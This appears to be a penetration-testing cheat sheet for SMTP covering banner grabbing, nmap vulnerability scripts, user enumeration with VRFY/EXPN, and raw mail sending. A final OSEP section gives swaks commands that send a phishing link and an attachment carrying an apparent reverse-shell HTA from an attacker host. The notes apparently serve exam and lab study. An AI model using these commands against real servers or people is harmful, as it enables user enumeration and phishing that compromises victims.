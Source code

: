 # (25) SMTP

<details>

<summary>Intro</summary>

* Used to send, receive, and relay outgoing emails
* Main attacks are user enumeration and using an open relay to send spam

</details>

<details>

<summary>Banner Grabbing</summary>

```bash
telnet 10.3.3.47 25
```

* Need to wait for a while

</details>

<details>

<summary>Nmap</summary>

```
nmap 192.168.1.101 --script=smtp* -p 25
```

<pre><code><strong>nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 $ip
</strong></code></pre>

</details>

<details>

<summary>User Enumeration</summary>

```bash
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t $ip
```

* Use `/usr/share/seclists/Usernames/Names/names.txt` wordlist

#### For multiple servers

```bash
for server in $(cat smtpmachines); do echo "******************" $server "*****************"; smtp-user-enum -M VRFY -U userlist.txt -t $server;done
```

</details>

<details>

<summary>Manual Enumeration</summary>

#### Command to check if a user exists

```
VRFY root
```

#### Command to ask the server if a user belongs to a mailing list

```
EXPN root
```

</details>

<details>

<summary>Sending Email using NC</summary>

#### Identify yourself to the mail server

```
HELO example.com
```

#### Specify a return address for the message (if message bounces)

```
MAIL FROM:bar@example.org
```

#### Specify at least one recipient for the message

```
RCPT TO:foo@example.com
```

#### Send the message data

```
DATA
From: bar@example.org
To: foo@example.com
Subject: Test
Date: Thu, 20 Dec 2012 12:00:00 +0000

Testing
.
```

</details>

## OSEP Notes Below

<details>

<summary>Send Email via Swaks</summary>

```bash
# Send phishing link
swaks --to will@example.com --server 192.168.131.159 --body "Hello, check out my link. http://192.168.45.170/rev.hta" --header "Subject: Issues" --from bob@example.com

# Send attachment
swaks --to will@example.com --server 192.168.131.159 --body "Hello, check out my link." --header "Subject: Issues" --from bob@example.com --add-header "MIME-Version: 1.0" --attach @rev.hta
```

</details>

